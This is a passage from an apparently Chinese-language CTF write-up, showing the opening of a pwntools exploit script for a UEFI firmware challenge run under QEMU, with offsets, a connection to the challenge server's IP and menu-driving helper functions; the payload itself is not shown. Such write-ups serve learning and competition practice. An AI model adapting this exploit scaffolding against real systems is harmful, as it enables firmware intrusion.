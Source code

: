 ![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT0mSRTxbY7fsoLUFViaxk1nhQByibgTdbwbMqNibWMKbHKrjwUUY8GNZlAoUlcic5ibVhyCebVwoNialnow/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "404 logo-b04.png")

**漏洞利用**

和图形化界面进行交互，`pwntools`确实还存在一些问题，所以可以通过`socat`来进行连接。最终`exp`如下：

```
from pwn import *

context.log_level = "debug"
context.arch = "amd64"

boot_offset = 0x235A
uiapp_offset = 0x1e009c0

DEBUG = 1
if DEBUG == 1:
    '''
    fname = "/tmp/uefi"
    os.system("cp OVMF.fd %s"%fname)
    os.system("chmod u+w %s"%fname)
    '''
    p = process([
            "qemu-system-x86_64",
            "-m", str(256+random.randint(0, 512)),
            "-drive", "if=pflash,format=raw,file=OVMF.fd",
            "-drive", "file=fat:rw:contents,format=raw",
            "-net", "none",
            "-monitor", "/dev/null",
            #"-s","-S",
            "-nographic"
        ])
else :
    p = remote("47.243.105.43","9999")

LOCAL_REMOTE = 0
if LOCAL_REMOTE:
    os.system("socat $(tty),echo=0,escape=0x03 SYSTEM:\"python ./exp.py \" 2>&1")

key_map = {
    "up":    b"\x1b[A",
    "down":  b"\x1b[B",
    "left":  b"\x1b[D",
    "right": b"\x1b[C",
    "esc":   b"\x1b^[",
    "enter": b"\r",
    "tab":   b"\t"
}

def send_key(key,times = 1):
    for _ in range(times):
        p.send(key_map[key])
        if key == "enter":
            p.recv()

def add(Keyname,Keyvalue):
    p.sendlineafter("> \n",str(1))
    p.sendlineafter('Key name:\n',Keyname)
    p.sendlineafter('Key value:\n',Keyvalue)

def delete(Keyname,Keyvalue):
    p.sendlineafter("> \n",str(2))
    p.sendlineafter('Key name:\n',Keyname)

```